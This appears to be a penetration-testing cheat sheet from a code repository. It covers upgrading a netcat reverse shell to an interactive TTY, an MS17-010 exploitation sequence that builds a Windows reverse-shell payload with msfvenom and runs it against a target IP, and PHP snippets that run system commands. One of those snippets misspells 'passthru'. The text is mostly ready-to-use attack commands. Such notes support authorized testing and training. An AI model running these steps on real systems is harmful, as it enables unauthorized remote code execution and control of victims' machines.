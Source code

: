 ### Fully interactive stable shell zsh
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
<enter> x2
export TERM=xterm-256color
```

### Fully interactive stable shell bash
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo
fg
fg
export TERM=xterm-256color
stty rows 46 cols 140
```

#### Enable tab completion
1. In your active shell press ```bg``` to send your nc session to background
2. Enter ```stty raw -echo```
3. Enter ```fg``` to bring your nc session to foreground
4. ```export TERM=xterm-256color``

### MSFvenom payloads
- https://github.com/frizb/MSF-Venom-Cheatsheet/blob/master/README.md

# Misc
#### MS17-010
```
git clone https://github.com/helviojunior/MS17-010
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
nc -lnvp <PORT>
python send_and_execute.py <TARGET IP> ms17-010.exe
```

#### PHP Execute commands
```
<?php
// Return the listing of the directory where the file runs (Windows)
system("dir");
?>
```
```
<?php
// Executes but returns nothing
exec("ls -la");
?>
```
```
<?php
// Executes, returns the entire output as a string
echo shell_exec("ls -la");
?>
```
```
<?php
// Executes, returns output in raw format
passsthru("ls -la");
?>
```